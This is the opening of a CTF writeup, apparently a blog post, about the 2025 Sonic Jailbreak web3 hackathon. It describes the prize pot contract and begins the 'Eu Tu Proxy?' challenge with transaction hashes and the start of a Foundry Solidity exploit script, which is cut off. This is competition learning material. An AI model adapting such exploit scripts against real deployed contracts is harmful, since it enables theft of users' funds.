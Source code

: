 ```yaml
---
title: (CTF) Sonic Jailbreak hackathon writeup
description: Sonic Jailbreak hackathon writeup
categories: [CTF,WEB3]
tags : [writeup,web3]
date : 2025-06-15 01:02:13 +0900
author:
    name:
    link:
toc: true
comments: true
mermaid: true
math: true
---
```


I played the Sonic Jailbreak hackathon with @yanhui. Only one team that completed all challenges could receive half of the prize (total 55,000 S tokens). We expected a lot of competition, but we were the only team that solved all challenges :d

The interesting part was [pot contract](https://sonicscan.org/address/0x38dd721dFd51FdEe02e6641e0CE0d5872aDB90B1). After solving each challenge, the challenge contract calls `addPoints` function in pot contract, and when a user reaches 200 points, they can call the `claimWin` function to get an NFT token. But that doesn't mean we can withdraw the prize :d ~~we received the prize after a month~~

You can check the info&challenges here
> [blog.soniclabs.com/sonic-summit-jailbreak-hackathon-2025-users-vs-developers](https://blog.soniclabs.com/sonic-summit-jailbreak-hackathon-2025-users-vs-developers/)

> [github.com/cantinasec/vienna_hackathon_2025](https://github.com/cantinasec/vienna_hackathon_2025)

All the transaction hashes can be found in [sonicscan.org](https://sonicscan.org/)

## Eu Tu Proxy?

[challenge link](https://github.com/cantinasec/vienna_hackathon_2025/tree/main/EU_TU_PROXY\)
---

Transaction hash: 0x5bcd073052cfaafda0b38ee976d6612f937c967112651cbc9510b8203eabfc6e, 0xf1f8616a6ac71d852d17d82f63fd943760d3e88b1f82e6c76909c03c78d8c015

- exploit code
    
    ```solidity
    // SPDX-License-Identifier: UNLICENSED
    pragma solidity ^0.8.13;
    
    import {Script, console} from "forge-std/Script.sol";
    
    import {ChallengeEasy4} from "../vienna_hackathon_2025/EU_TU_PROXY/Challenge_Easy_4.sol";
    
    contract Easy4Script is Script {
    
        function run() public {
            vm.startBroadcast();
            address player = vm.envAddress("PLAYER");
            address chall = 0xb73E7da3fA04A37bbE6be13CA4f1eC68b82a8A26;
    